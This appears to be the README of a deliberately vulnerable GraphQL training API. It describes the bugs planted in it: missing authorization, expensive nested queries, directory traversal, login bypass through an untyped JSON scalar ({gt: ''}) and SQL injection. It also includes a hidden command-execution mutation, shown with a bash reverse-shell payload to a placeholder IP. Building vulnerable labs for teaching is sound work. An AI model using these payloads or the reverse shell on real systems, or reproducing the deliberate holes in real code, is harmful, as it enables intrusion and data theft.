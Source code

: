# GraphQL Demo API

A simple GraphQL API demonstrating several common vulnerabilities.

Authored by Aidan Noll, Carve Systems, LLC.

## Requirements

Node, NPM, and Python

## Setup

```
# Install all dependencies.
npm install
# Build the TypeScript source.
npm run tsc
# Create the database and seed it with random users and comments.
npm run sequelize db:migrate
npm run sequelize db:seed:all
```

## Running

To run the main API:

```
./run.sh
```

## Usage

The GraphQL API is available on port 3000. Visiting the homepage will take you to a GraphIQL IDE for exploration.

The API provides a simple social media/blog system. Users are able to make and view posts from other users, and they can be marked private so that they can't be seen by other users.

### Queries

me: returns information (id, firstName, lastName, list of posts) about the currently logged in user. On first access to the API, a user is assigned to your session.

allUsers: provides a list of all users. Has the same information as `me` -- but filters out private posts from other users.

post(id): Returns a specific post by ID. -- `(id, title, content, author)`.

search(query): Returns posts that contain the `query` string within their contents. E.g., search("asdf") would return any post containing "asdf".

getAsset(name): Retrieves an asset from the backend REST API and returns its contents as a string.


### Mutations

register(username, password, firstName, lastName): Registers a new account. Does not log into the new account.

login(username, password): Logs you into the account given by `username` if the password is correct.

createPost(title, content, public): Creates a new post.

superSecretPrivateMutation(command): ???

## Bugs

### Authorization

Authorization is handled by field resolvers. As a result, forgetting to check authorization in one location leads to authorization bugs.

In this API, private posts are directly accessible through the `post(id)` query.

```
query {
    post("1") {
        public
    }
}
```

### Expensive Queries

As API users are able to specify what they want, a massive, complicated-to-execute query can be sent: 

```
query {
  allUsers{
    posts
    {
      content
      author
      {
        posts
        {
          content
          author
          {
            firstName
            lastName
          }
        }
      }
    }
  }
}
```

### "Hidden" Mutations

Introspection reveals all. If introspection is enabled, any hidden/private queries and mutations can be found by sending an introspection query.

GraphIQL automatically does this, so hidden queries show up in it.

This API has a hidden mutation that exposes command execution.

Update with valid ID and port for fun.

```
mutation {
  superSecretPrivateMutation(command: "/bin/bash -i >& /dev/tcp/<IPADDRESS>/65000 0>&1") {
    stdout
    stderr
  }
}
```

### Parameter Tampering to Backend APIs

Many GraphQL APIs proxy some endpoints to external REST APIs. In many cases, they fail to validate the ID or other URL parameters, allowing for the endpoint reached to be modified.

`getAssets(name)` makes a request to a local HTTP server. However, as the field is not validated, directory traversal can be used to read files outside of the intended `assets` folder.

### Unsafe Custom Scalars

GraphQL allows for applications to define custom scalar types, which can be used by schemas as input types in addition to the built-in types. While GraphQL validates that the argument types are correct, custom scalars must be used and validated carefully. 

This application uses the `GraphQLJSON` type from the `graphql-type-json` for parameters to the `login` mutation, instead of having separate `string` parameters. Because the types of the contained objects are not validated, the username and password may be objects instead of strings.

As a result, passing the following as input to the login mutation will result in an authentication bypass.
```
{
    username: "Selmer66",
    password: {gt: ""}
}
```

### SQLi (bonus?)

I have seen SQL injection in GraphQL APIs before, so this type of vulnerability is never going away.

The `search(query)` uses the query to build a SQL `LIKE` clause, and it does so unsafely. 

